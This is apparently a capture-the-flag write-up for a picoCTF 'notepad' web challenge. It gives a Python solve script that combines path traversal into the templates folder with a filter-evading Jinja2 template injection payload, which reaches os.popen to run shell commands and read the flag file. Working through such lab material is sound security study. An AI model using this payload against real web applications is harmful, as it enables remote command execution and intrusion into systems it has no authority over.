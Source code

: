 ```bash
$ python solve.py "{{request.application|attr((request.args.c*2,'globals',request.args.c*2)|join)|attr((request.args.c*2,'getitem',request.args.c*2)|join)((request.args.c*2,'builtins',request.args.c*2)|join)|attr((request.args.c*2,'getitem',request.args.c*2)|join)((request.args.c*2,'import',request.args.c*2)|join)('os')|attr('popen')('cat flag-c8f5526c-4122-4578-96de-d7dd27193798.txt')|attr('read')()}}"
[+] File created with name: ?error=long_content&len=514
```
And as you can see we got to the max length filtering. A simple way is to send another request.get param and send our shell payload for it with `request.args.shell`. 
So we update python code like below:
```python
import sys
import requests

base_url = 'https://notepad.mars.picoctf.net'

payload_content = sys.argv[1]
path_content = '..\\templates\\errors\\test' + (128-len('..\\templates\\errors\\test'))*'a'
content = path_content + payload_content
shell = sys.argv[2]

response = requests.post(f'{base_url}/new', data={'content': content}, allow_redirects=False)
redirected_url = response.headers['Location']
filename = redirected_url.split('/')[-1]
print(f'[+] File created with name: {filename}')

# Now try to get the file with ?error param
response = requests.get(f'''{base_url}/?error={filename.rstrip(".html")}&c=_&shell={shell}''')
print('[+] Printing content of file')
print(response.text)
```
and run it with `shell equal 'cat flag-c8f5526c-4122-4578-96de-d7dd27193798.txt'`:
```bash
$ python solve.py "{{request.application|attr((request.args.c*2,'globals',request.args.c*2)|join)|attr((request.args.c*2,'getitem',request.args.c*2)|join)((request.args.c*2,'builtins',request.args.c*2)|join)|attr((request.args.c*2,'getitem',request.args.c*2)|join)((request.args.c*2,'import',request.args.c*2)|join)('os')|attr('popen')(request.args.shell)|attr('read')()}}" "cat flag-c8f5526c-4122-4578-96de-d7dd27193798.txt"
```
And we get the flag.